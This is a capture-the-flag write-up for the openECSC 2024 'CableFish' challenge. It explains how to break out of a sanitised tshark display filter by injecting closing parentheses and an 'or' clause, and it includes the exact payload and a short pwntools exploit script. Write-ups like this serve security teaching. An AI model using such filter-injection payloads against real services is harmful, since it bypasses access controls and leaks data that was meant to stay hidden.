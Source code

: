 # openECSC 2024 - Round 1

## [misc] CableFish (594 solves)

Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome?

Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic!

This is a remote challenge, you can connect with:

`nc cablefish.challs.open.ecsc2024.it 38005`

Author: Matteo Protopapa <@matpro>

## Overview

The challenge description gives us a netcat endpoint. The server asks us a filter, that is used with tshark in order to display some packets of a network capture. The filter is modified so that we cannot read the packets containing `flag_placeholder`.

## Solution

In order to find the flag, we have to read the blacklisted packets. This can be easily done injecting special characters, similarly to the single quote in SQL injections. In fact, the "sanitized" filter is obtained wrapping the filter provided by the user with `((...) and (not frame contains "flag_placeholder"))`. By closing the parenthesis two times, we can obtain an unconstrained filter. We fix syntax error by reopening the parenthesis, just after the insertion of an `or` operator (so that the two parts of the filter are independent). There are multiple working payloads, for example `frame contains "flag_placeholder")) or ((udp`, resulting in `((frame contains "flag_placeholder")) or ((udp) and (not frame contains "flag_placeholder"))`.

## Exploit

```python
r = remote(HOST, PORT)
r.recvuntil(b'filter: ')
r.sendline(b'frame contains "flag_placeholder")) or ((udp')
r.recvuntil(b'))\n\n')
print(r.recvall(timeout=5))
```
